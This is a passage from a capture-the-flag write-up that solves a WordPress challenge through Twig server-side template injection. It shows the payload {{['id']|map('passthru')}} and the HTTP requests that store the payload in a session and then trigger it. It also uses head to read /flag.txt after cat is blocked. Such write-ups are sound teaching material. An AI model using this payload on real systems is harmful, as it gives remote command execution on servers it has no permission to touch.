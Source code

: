 That being said, we can inject the following Twig SSTI payload to execute OS commands!
{% raw %}
```twig
{{['id']|map('passthru')}}
```

Let's try this!

```http
GET /wp-admin/admin-ajax.php?action=save_session&session_data={{['id']|map('passthru')}} HTTP/1.1
Host: localhost


```
{% endraw %}
![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Patchstack-WCUS-Capture-The-Flag/images/Pasted%20image%2020240922174125.png)

```http
GET /?page=sess_f5pel0q0csj7mu403bvl6c9rrk HTTP/1.1
Host: localhost


```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Patchstack-WCUS-Capture-The-Flag/images/Pasted%20image%2020240922174143.png)

It worked!

We can finally go to the remote instance and get the flag!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Patchstack-WCUS-Capture-The-Flag/images/Pasted%20image%2020240922174347.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Patchstack-WCUS-Capture-The-Flag/images/Pasted%20image%2020240922174409.png)

Oh wait... We can't use `cat` to read file `/flag.txt`. Don't worry! We can just use **`head`** or other tools to read it!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Patchstack-WCUS-Capture-The-Flag/images/Pasted%20image%2020240922174522.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Patchstack-WCUS-Capture-The-Flag/images/Pasted%20image%2020240922174537.png)

- **Flag: `CTF{f0rc3d_sst1_ch4ll_zz4z2561}`**

## Conclusion

What we've learned:

1. Server-Side Template Injection (SSTI) in Twig with bypassing blacklisted keywords
